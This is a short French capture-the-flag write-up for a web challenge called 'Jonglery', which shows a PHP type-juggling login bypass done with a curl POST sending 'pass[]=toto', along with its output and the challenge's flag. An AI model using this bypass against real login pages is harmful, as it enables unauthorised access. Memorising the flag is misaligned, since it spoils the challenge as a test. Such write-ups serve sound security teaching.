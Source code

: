 # Write up :  Jonglery



Catégorie :

```
Web
```

Consigne  :

```
Trouver un moyen de se connecter à l'interface de ce site. 

<FONT COLOR="#ff0000">Accès au site :<br>   <a href="http://game2.marshack.fr:8087" target="new">http://game2.marshack.fr:8087</a></FONT> <p>
```

Pièce jointe :

```
Aucune
```

Serveur :

```
game2
```

Points attribués :

```
30
```

Flag :

```
MARS{TyP3JuGliNgC00LT00}
```

![](jonglery-images/Jonglery.png)



## Solution

Challenge un peu plus compliqué que les autres web, il s'agit d'une attaque de type juggling à faire sur le password.

Nous mettons donc un tableau à la place de la variable "pass" :

```
pwner@ubuntu:~$ curl -s -X POST http://game2.marshack.fr:8087/index.php -d "pass[]=toto" | grep flag
        Bien joué ! flag : MARS{TyP3JuGliNgC00LT00}
```



Résultat : MARS{TyP3JuGliNgC00LT00}